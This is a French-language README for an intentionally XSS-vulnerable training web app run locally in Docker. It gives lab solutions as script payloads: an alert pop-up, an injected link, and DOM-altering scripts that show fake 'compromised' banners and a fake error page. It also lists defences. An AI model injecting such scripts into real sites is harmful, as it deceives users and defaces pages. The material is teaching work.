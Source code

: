 # XSS Vulnerable App: Guide d'Exploitation

Ce projet est une application web volontairement vulnérable aux attaques XSS (Cross-Site Scripting) permettant d’expérimenter et de comprendre ses vulnérabilités.

---

## Prérequis

### 🔹 **Outils nécessaires**
- **Docker** (Vérifiez l’installation avec `docker --version`).
- **Navigateur Web** (Chrome, Firefox, etc.).
- **Git** afin de cloner le dépôt.
---

## Installation et Lancement

**Cloner le projetn et accéder au dossier du projet**  
```sh
git clone https://github.com/zakisfa/xss-vulnerable-app.git
cd xss-vulnerable-app
```

**Construire l’image Docker avec la commande suivante**  
```sh
docker build -t xss-vulnerable-app .
```

**Exécuter le conteneur**  
```sh
docker run -d -p 8080:80 xss-vulnerable-app
```

**Accéder à l'application**  
```sh
http://localhost:8080
```

---

## Scénarios d’attaque XSS
Une fois connecté a l'application vous serez sur l'index de l'application, il y a 3 scénarios possibles d'injections.
Faites les dans l'ordre.
### **Injection XSS via Pop-up**
#### Description :
Ce scénario illustre comment injecter un script malveillant qui déclenche une **alerte** sur le navigateur.

#### Objectif :
- Injecter un script dans le champ pour **afficher un pop-up**.

#### Solution :
Saisissez cette **payload XSS** et validez le formulaire :
```html
<script>alert('XSS réussie!');</script>
```
**Impact** : Un attaquant peut injecter du JavaScript et exécuter du code arbitraire.

---

### **XSS via Insertion de Lien Malveillant**
#### Description :
L’objectif est de **piéger** un utilisateur en lui faisant cliquer sur un **lien injecté** dans un commentaire.

#### Objectif :
- Insérer un lien malveillant dans un champ commentaire.

#### Solution :
Saisissez cette **payload XSS** et validez le formulaire :
```html
<a href="https://google.com" target="_blank">Cliquez ici</a>
```
 **Impact** : Un attaquant peut rediriger un utilisateur vers un **site malveillant**.

---

### **XSS via DOM Manipulation**
#### Description :
Ce scénario montre comment le JavaScript d’une page peut être manipulé dynamiquement sans interaction serveur.

#### Objectif :
- Exploiter une injection pour **modifier le DOM**.

#### Solution :
1. Dans le champ, injecter l'un des scripts suivants :
   
   **Modifier le titre de la page** :
   ```html
   <script>document.title = "Site piraté !";</script>
   ```

   **Changer le texte principal** :
   ```html
   <script>document.querySelector('h1').innerText = "Ce site est compromis";</script>
   ```

   **Modifier l'apparence du site** :
   ```html
   <script>
   document.body.style.backgroundColor = "black";
   document.body.style.color = "red";
   </script>
   ```

   **Afficher un message d'alerte en haut de la page** :
   ```html
   <script>
   let warning = document.createElement("div");
   warning.style = "position: fixed; top: 0; left: 0; width: 100%; background: red; color: white; padding: 10px; font-size: 20px; text-align: center;";
   warning.innerText = "⚠️ Alerte : Site compromis !";
   document.body.prepend(warning);
   </script>
   ```

   **Faux message d'erreur** :
   ```html
   <script>
   document.body.innerHTML = "<h1 style='color:red;text-align:center;'>Erreur 500 - Site en maintenance</h1>";
   </script>
   ```

2. Valider le formulaire et observer le changement sur la page.

**Impact** : Un attaquant peut modifier le contenu affiché, afficher des messages trompeurs, et perturber la navigation.

---

## Comment Se Protéger ?
 **Éviter d’afficher directement les entrées utilisateur** (utiliser `htmlspecialchars()`).  
 **Implémenter un Content Security Policy (CSP)**.  
 **Échapper systématiquement** les entrées dans le DOM (`innerText` au lieu de `innerHTML`).  
 **Filtrer les entrées utilisateurs** côté serveur.

---

## Disclaimer

**Ce projet est destiné à l’éducation uniquement.** 

**Auteur : DANNENMULLER ZACHARIE**
